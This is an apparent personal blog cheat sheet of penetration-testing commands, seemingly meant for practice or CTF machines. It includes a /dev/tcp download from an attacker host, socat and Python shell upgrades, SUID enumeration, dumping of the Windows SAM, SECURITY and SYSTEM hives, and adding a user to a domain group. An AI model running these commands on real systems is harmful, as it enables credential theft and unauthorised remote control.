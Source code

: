 ```yaml
---
layout: post
title: Common Tools and Commands
author: Mitchell Stein
tags:

jekyll theme

jekyll
date: 2022-02-14
tags: []
categories: [Toolkit]
toc:  true
---
```


# Tools

Find common vulnerabilities in Unix binaries

- [GTFOBins](https://gtfobins.github.io)

Crack known password hashes (ONLY USE ON PRACTICE MACHINES)

- [CrackStation](https://crackstation.net)

---

# Commands

## Post-Shell Enumeration

### linux

Find all files owned by a user in Linux, disregarding /proc and /sys files

- `find / -user <username> -ls 2>/dev/null`

Find all SUID binaries for the current user:

- `find / -type f -perm -04000 -ls 2>/dev/null`

Download files with bash

- `bash -c "cat < /dev/tcp/[Attacker IP]/[Attacker Port]" > [file]`

Upgrade reverse shell

- Using socat

  - On target: `` socat file:`tty`,raw,echo=0 tcp-listen:4444 ``
  - On attacker: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:4444`

- Using Python
  - On target: `python -c 'import pty; pty.spawn("/bin/bash")'`

View neighbor computer IPs

- `ip ne`
- `"ip -br -c ne`

### Windows

Harvest SAM:

- `reg.exe save hklm\sam c:\temp\sam.save`
- `reg.exe save hklm\security c:\temp\security.save`
- `reg.exe save hklm\system c:\temp\system.save`

Add current user to group

- `net group "<group>" <username> /add /domain`

Get user/domain SID:

- `whoami /user`
